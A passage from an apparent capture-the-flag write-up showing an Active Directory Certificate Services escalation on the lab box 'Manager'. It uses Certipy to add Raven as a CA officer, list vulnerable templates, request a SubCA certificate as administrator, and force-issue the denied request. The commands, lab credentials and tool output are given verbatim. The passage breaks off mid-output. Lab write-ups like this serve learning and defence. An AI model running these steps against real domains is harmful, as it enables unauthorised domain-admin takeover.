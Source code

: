 

    oxdf@hacky$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Successfully added officer 'Raven' on 'manager-DC01-CA'



Now Raven shows up there where they didn't before:



    oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
    ...[snip]...
            ManageCertificates              : MANAGER.HTB\Administrators
                                              MANAGER.HTB\Domain Admins
                                              MANAGER.HTB\Enterprise Admins
                                              MANAGER.HTB\Raven
    ...[snip]...



This gets reset periodically, so if I find some step breaks while
exploiting, it's worth going back to see if that is why.

#### Administrator Certificate

The first step is to request a certificate based on the Subordinate
Certification Authority (SubCA) template provided by ADCS. The SubCA
template serves as a predefined set of configurations and policies
governing the issuance of certificates.



    oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)                             

    [*] Requesting certificate via RPC                         
    [-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
    [*] Request ID is 13
    Would you like to save the private key? (y/N) y
    [*] Saved private key to 13.key
    [-] Failed to request certificate



This fails, but it saves the private key involved. Then, using the
Manage CA and Manage Certificates privileges, I'll use the `ca`
subcommand to issue the request:



    oxdf@hacky$ certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                        